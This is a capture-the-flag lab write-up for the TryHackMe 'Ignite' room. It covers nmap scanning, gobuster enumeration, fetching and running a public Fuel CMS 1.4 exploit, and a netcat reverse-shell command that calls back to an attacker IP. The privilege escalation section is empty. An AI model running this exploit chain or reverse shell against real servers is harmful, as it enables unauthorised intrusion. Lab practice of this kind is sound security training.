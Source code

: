 # [Ignite](https://tryhackme.com/room/ignite)

> A new start-up has a few issues with their web server

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.138.185
```

![image](https://user-images.githubusercontent.com/90561566/188138041-0e800d6a-7fc8-41a8-8bb4-e9535589f31d.png)

Hmm, found only 1 open port 80 (http)

## HTTP

Go to the web page

![image](https://user-images.githubusercontent.com/90561566/188138642-85ed4d57-3ec3-4467-bed3-dde8f7355691.png)

It's default page of fuel cms 1.4

## Enumeration

Gobuster to discover hidden directory

```
gobuster dir -u http://10.10.138.185 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/188139192-d3977108-ff1f-43e1-b05b-5f6b4d0a6b41.png)

I connected to /0/ and /home/ directory and maybe in vain

![image](https://user-images.githubusercontent.com/90561566/188139966-5029d435-ba8f-4ceb-ba6d-a7a5f464cdbb.png)

I had logggd in and see nothing too

## Exploitation

I search exploit for fuelcms

```
searchsploit fuelcms 1.4
```

![image](https://user-images.githubusercontent.com/90561566/188140509-e7f1d285-a42e-4e56-bb53-75ce63f1e2af.png)

copy exploit

```
searchsploit -m 47138.py
vi 47138.py
```

change line 14 to target ip

![image](https://user-images.githubusercontent.com/90561566/188140922-cc1950b3-b5cc-46e5-a836-27ab5cd654f4.png)

```
chmod +x 47138.py
python 47138.py
```

![image](https://user-images.githubusercontent.com/90561566/188256466-ef67f34d-b02c-421e-b8f1-f15a6393e4a9.png)

now we open a reverse shell to control easily

```
nc -vlnp 1234
```

```
cmd: nc 192.168.211.137 1234
```



.

| Flag | User flag |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | User flag |
| --- | --- |
| Answer | <flag> |
